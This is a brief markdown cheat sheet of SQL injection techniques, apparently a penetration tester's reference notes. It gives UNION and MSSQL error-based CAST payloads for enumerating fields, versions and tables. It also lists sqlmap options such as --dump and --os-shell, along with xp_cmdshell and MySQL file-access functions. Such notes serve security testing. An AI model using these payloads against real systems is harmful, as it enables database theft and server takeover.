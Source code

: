 ## In-band
#### UNION
* `99999999 UNION SELECT NULL<, NULL,...>; -- -` - detect number of fields in query
* `99999999 UNION SELECT 1<, NULL,...>; -- -` - detect field type
* `99999999 UNION SELECT 'a'<, NULL,...>; -- -` - detect field type

## Error-based
#### CAST
* `99999999 or 1 in (Select Top 1 CAST(<fieldname> as varchar(4096)) <from <TableName> where <fieldname> not in (<list>)>)`
    * fieldname: `@@version`, `user_name()`, `db_name(0)-(99..)`
          * `...CAST(name as varchar(4096)) FROM <database-name>..sysobjects where xtype='U' and name not in (<known-table-list>)`

## Blind
#### Boolean-Based
* trigger True/False statements

## Sqlmap
* `sqlmap -u <URL> --data=<POST> -p param` - POST
* `sqlmap -u <URL> -p param`
* `sqlmap -r <request-file> -p param` - take request from file
     * `--technique=<U>`
     * `--banner`
     * `--dbms` - database type
     * `--dbs` - list databases
     * `-D <database>`, `-T <tables>`, `-C <columns>` - select specific database/table/column
     * `--tables`, `--columns` - list tables, columns
     * `--dump`
     * `--string` - always present in True output
     * `--not-string` - always present in False output
     * `--prefix <value>`, `--suffix <value>`
     * `--keep-alive` - persistent connection to target
     * `--os-cmd`, `--os-shell` - takeover comamnds (cmdshell, UDF)

## Techniques
#### MSSQL
* `xp_cmdshell` - executes OS commands
* `openrowset` - access the tables of a remote server; can be used as port scanner
#### MySQL
* `load_file`
* `load data infile`
* `dumpfile`
* UDF
  

## Cheatsheets
* https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

